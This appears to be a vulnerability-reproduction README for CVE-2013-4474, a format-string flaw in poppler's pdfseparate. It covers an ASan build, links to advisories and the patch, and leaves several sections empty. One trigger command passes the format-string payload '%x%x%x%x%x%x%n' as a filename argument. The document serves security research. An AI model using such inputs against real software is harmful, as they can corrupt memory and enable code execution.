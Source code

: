 # CVE-2013-4474

## Experiment Environment

CentOS 6.5

## INSTALL & Configuration

```
wget https://github.com/mudongliang/source-packages/raw/master/CVE-2013-4473/poppler-0.24.2.tar.xz
tar -xvf poppler-0.24.2.tar.xz
cd poppler-0.24.2
CC=$CC CXX=$CXX CFLAGS="-fsanitize=address -g" CXXFLAGS="-fsanitize=address -g" ./configure
make
```

## Problems in Installation & Configuration


## How to trigger vulnerability

```
./utils/pdfseparate -f 1 -l 1 aPdfFile.pdf "%x%x%x%x%x%x%n"
./utils/pdfseparate demo.pdf test-%s-%d.pdf
```

## PoCs

[CVE request: 3 vulnerabilities in poppler and 1 in Xpdf](http://seclists.org/oss-sec/2013/q4/181)

[Poppler 0.14.3 - '/utils/pdfseparate.cc' Local Format String](https://www.exploit-db.com/exploits/38817/)

[Poppler '/utils/pdfseparate.cc' Local Format String Vulnerability](https://www.securityfocus.com/bid/63374/exploit)

## Vulnerability Details & Patch

### Root Cause

### Stack Trace

### Patch

Details are in <https://cgit.freedesktop.org/poppler/poppler/diff/utils/pdfseparate.cc?id=61f79b8447c3ac8ab5a26e79e0c28053ffdccf75>

## References
